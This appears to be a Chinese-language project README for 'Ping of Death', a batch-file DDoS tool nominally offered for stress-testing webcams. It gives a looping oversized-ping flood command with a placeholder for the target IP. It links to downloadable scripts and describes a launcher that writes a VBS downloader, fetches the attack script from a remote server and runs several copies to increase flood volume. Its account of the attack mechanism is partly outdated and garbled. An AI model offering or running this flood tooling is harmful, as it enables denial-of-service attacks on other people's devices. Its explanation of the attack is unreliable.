 # Ping of Death：使用bat进行DDOS  
## 介绍
“Ping of Death” 是一个通过bat批量处理文件来进行DDOS的项目，你可以用它来进行对网络摄像头等小型设备进行压力测试。
## 下载
### pingofdeath.bat
我们提供**单个执行文件**，您可以使用它在**断开互联网**的情况下使用。[点击这里下载pingofdeath.bat](https://pingofdeath.vercel.app/pingofdeath.bat)  
### startofping.bat
同时，在**联网的情况**下我们也提供更高效的启动器，集成**下载**和**运行**功能。在默认情况下，你最多可以通过它一次**启动10个**pingofdeath.bat。你可以[点击这里下载startofping.bat](https://pingofdeath.vercel.app/startofping.bat)  
## 配置
startofping.bat并不需要特别配置，您只需要配置pingofdeath.bat即可。  
这里提供源代码参考，你只需要**替换你的目标IP**即可。  

    :loop
    ping <填写你的IP> -l 65500 -w 1 -n 1
    goto :loop

****
## 解读  
### pingofdeath.bat  
ping 数据包也可以通过向目标 IP 地址发送连续的 ping 数据包来执行拒绝服务攻击。持续 ping 会导致目标系统的缓冲区溢出，并导致目标系统崩溃。   
一个 ping 数据包的大小通常为 56 字节或 84 字节（包括 IP 标头）。但是，一个 ping 数据包也可以最大为 65,536 字节。  
并非所有计算机都可以处理大于固定大小的数据。因此，当一个 ping of death 数据包从源计算机发送到目标计算机时，ping 数据包会被分割成更小的数据包组。  
一个片段大小为 8 个八位字节。当这些数据包到达目标计算机时，它们会分段到达。因此，目标计算机重新组装成块收到的格式错误的数据包。  
但是，整个组装的数据包会导致目标计算机的缓冲区溢出。  
这种缓冲流经常导致系统崩溃，使系统更容易受到攻击。  
### startofping.bat
这是pingofdeath.bat的启动器，它包括下载和运行两种功能。
下载功能很简单，[百度知道](https://zhidao.baidu.com/question/2015853793461382908.html)里面有回答。  
但是值得注意的是，如果你使用了上面的代码，我们需要稍作修改，因为这可能会遇到权限问题，具体在下面说明。  
考虑到大部分用户会把文件放在C盘（桌面），我们没有管理员权限，所以就制定了两种下载方案。
####  1.放在D盘  
考虑到不同系统对于C盘权限要求不同，我们选择把文件放在D盘。  

    ::设置文件保存目录，若下载至当前目录，请留空  
    set Save=D:\

注意，上面的代码会创建一个DownloadFile.vbs文件来下载startofping.bat。由于权限问题，我们需要指定路径。  

    ::原代码
    echo End Sub)>DownloadFile.vbs
    ::修改为
    echo End Sub)>D:\DownloadFile.vbs

最后，我们需要启动下载的文件。我们在这里重复5次来加大DDOS效率。  

    start D:\pingofdeath.bat
    start D:\pingofdeath.bat
    start D:\pingofdeath.bat
    start D:\pingofdeath.bat
    start D:\pingofdeath.bat

####  2.放在C盘
考虑到极个别电脑只有C盘一个盘符（虽然这种可能性极小），我们还是准备了C盘方案。经检验，Windows11系统的C:\Users\Public\是可以无权限使用的。所以同理：  


    ::设置文件保存目录，若下载至当前目录，请留空
    set Save=C:\Users\Public\
更改DownloadFile.vbs文件指定路径。

    ::原代码
    echo End Sub)>DownloadFile.vbs
    ::修改为
    echo End Sub)>C:\Users\Public\DownloadFile.vbs
最后，我们启动下载的文件。  

    start C:\Users\Public\pingofdeath.bat
    start C:\Users\Public\pingofdeath.bat
    start C:\Users\Public\pingofdeath.bat
    start C:\Users\Public\pingofdeath.bat
    start C:\Users\Public\pingofdeath.bat

至此，代码就解读完成了。 
**** 
## 存放服务器
由于GitHubPage好像禁止了直接通过http下载文件，我们就使用了vercle服务，文件直接从vercel服务器获取pingofdeath.bat。  
****
作者的[博客](https://gloridust.tk)
